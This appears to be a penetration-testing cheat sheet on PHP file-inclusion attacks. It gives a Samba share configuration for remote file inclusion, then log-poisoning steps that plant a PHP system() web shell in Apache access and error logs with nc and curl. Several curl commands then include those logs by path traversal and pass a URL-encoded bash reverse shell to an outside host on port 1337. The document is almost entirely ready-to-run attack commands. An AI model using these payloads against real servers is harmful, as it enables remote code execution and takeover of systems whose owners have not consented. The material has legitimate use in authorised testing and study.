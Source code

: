 # LFI/RFI

## PHP RFI with SMB

* [http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

`/etc/samba/smb.conf`:

```text
log level = 3
[share]
        comment = TEMP
        path = /tmp/smb
        writable = no
        guest ok = yes
        guest only = yes
        read only = yes
        browsable = yes
        directory mode = 0555
        force user = nobody
```

```text
$ chmod 0555 /tmp/smb
$ chown -R nobody:nogroup /tmp/smb
$ service smbd restart
$ tail -f /var/log/samba/log.<HOSTNAME>
```

## Log Poisoning

### PHP

* [https://medium.com/bugbountywriteup/bugbounty-journey-from-lfi-to-rce-how-a69afe5a0899](https://medium.com/bugbountywriteup/bugbounty-journey-from-lfi-to-rce-how-a69afe5a0899)
* [https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

Access log \(needs single `'` instead of double `"`\):

```text
$ nc 127.0.0.1 80
GET /<?php system($_GET['cmd']); ?>

$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//var//log//apache2//access.log&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
Or
$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//proc//self//fd//1&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
```

Error log:

```text
$ curl -X POST 'http://127.0.0.1/vuln1.php' --form "userfile=@docx/sample.docx" --form 'submit=Generate pdf' --referer 'http://nowhere.com/<?php system($_GET["cmd"]); ?>'
$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//var//log//apache2//error.log&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
Or
$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//proc//self//fd//2&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
```

